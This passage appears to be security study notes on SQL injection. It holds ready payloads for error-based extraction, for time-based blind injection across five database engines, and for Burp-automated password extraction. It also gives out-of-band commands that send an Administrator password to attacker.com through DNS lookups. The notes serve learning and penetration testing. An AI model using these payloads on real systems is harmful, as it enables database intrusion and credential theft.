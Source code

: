 {{< /details >}}

***

**Extracting sensitive data via verbose SQL error messages**

* Example: inject `'` and you get an error: `Unterminated string literal started at position 52 in SQL SELECT * FROM tracking WHERE id = '''. Expected char`
* You can use the `CAST()` function to turns an otherwise blind SQL injection vulnerability into a visible one
* `TrackingId=' AND 1=CAST((SELECT password FROM users LIMIT 1) AS int)--`

### Time-based SQL injection

* Condition: As SQL queries are normally processed synchronously by the application, delaying the execution of a SQL query also delays the HTTP response.
* Triggering time delays depending on whether an injected condition is true or false
* We can retrieve data by testing one character at a time

```sql
# MySQL
AND (SELECT 1337 FROM (SELECT(SLEEP(10-(IF((1=1),0,10))))) RANDSTR)
# PostgreSQL
AND 1337=(CASE WHEN (1=1) THEN (SELECT 1337 FROM PG_SLEEP(10)) ELSE 1337 END)
# MSSQL
AND 1337=(CASE WHEN (1=1) THEN (SELECT COUNT(*) FROM sysusers AS sys1,sysusers AS sys2,sysusers AS sys3,sysusers AS sys4,sysusers AS sys5,sysusers AS sys6,sysusers AS sys7) ELSE 1337 END)
# Oracle
AND 1337=(CASE WHEN (1=1) THEN DBMS_PIPE.RECEIVE_MESSAGE('RANDSTR',10) ELSE 1337 END)
# SQLite
AND 1337=(CASE WHEN (1=1) THEN (SELECT 1337 FROM (SELECT LIKE('ABCDEFG',UPPER(HEX(RANDOMBLOB(1000000000/2)))))) ELSE 1337 END)
```

{{< details summary="Attack example and automation with burp (PostgreSQL)" >}}

* Attack type: cluster bomb
* Payload position: (substring position) `§1§` , (char to match)`§a§`
* `LIMIT 1` if you want the first row. Otherwise use `LIMIT 1 OFFSET 4`
* Create new resource pool with maximum concurrent request to 1

```sql
param=' AND 1337=(CASE WHEN ( (select substring(password,§1§,1) from users LIMIT 1 ) = '§a§' ) THEN (SELECT 1337 FROM PG_SLEEP(5)) ELSE 1337 END)--
```

{{< /details >}}

### Out-Of-Band (OAST) SQL injection

An application might carry out a SQL query asynchronously (another thread execute the SQL query)

```sql
-- Triggering a DNS query
'; exec master..xp_dirtree '//attacker.com/a'--
' UNION SELECT UTL_INADDR.get_host_address('attacker.com')

-- Exfiltrate data
'; declare @p varchar(1024);set @p=(SELECT password FROM users WHERE username='Administrator');exec('master..xp_dirtree "//'+@p+'.attacker.com/a"')--
```

---